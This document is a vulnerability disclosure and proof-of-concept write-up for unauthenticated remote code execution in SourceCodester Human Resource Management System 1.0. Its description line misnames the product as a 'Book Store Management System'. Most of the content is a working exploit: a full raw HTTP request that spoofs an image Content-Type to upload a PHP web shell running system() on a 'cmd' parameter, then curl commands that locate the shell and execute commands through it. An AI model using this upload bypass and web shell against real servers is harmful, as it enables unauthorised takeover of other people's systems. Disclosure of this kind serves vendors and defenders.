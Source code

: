 # Human Resource Management System 1.0 Remote Code Execution (Unauthenticated)

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability allows an unauthenticated attacker bypass the upload file restriction and execute arbitrary code via a crafted PHP file.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/controller/employee.php

Source code analysis:

File image must be 1 of 4 stypes was definded

![](images/bypass-restriction.png)

After uploading, the webshell file will be added with some random number in the name.

![](images/file-path-webshell.png)


Proof of Concept:

### 1. Bypass File upload restriction

Bypass check type using `Content-Type: image/jpg` in the upload form.

### 2. Upload web shell without authentication

After analysis the source code, we know that `/hrm/controller/employee.php` allow an unauthorized user access and upload image file.

Let's upload file webshell `leecybersec.php` with `Content-Type: image/jpg` without any authentication.

``` txt
POST /hrm/controller/employee.php?empedit= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------33759207513109230905790184197
Content-Length: 673
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/hrm/employeeadd.php
Upgrade-Insecure-Requests: 1

-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="empid"

123
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="pfimg"; filename="leecybersec.php"
Content-Type: image/jpg

<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="submit"


-----------------------------33759207513109230905790184197
Content-Disposition: form-data; name="imagefilename"


-----------------------------33759207513109230905790184197--
```

![](images/sent-payload.png)

### 3. Find the uploaded webshell file and get RCE

Go to /hrm/image/ and get webshell name

``` bash
curl localhost/hrm/image/
```

Get remote code execution

``` bash
curl localhost/hrm/image/247245leecybersec.php?cmd=id
```

![](images/find-webshell-rce.png)

#### Discoverer(s)/Credits: NGO VAN TU (@leecybersec)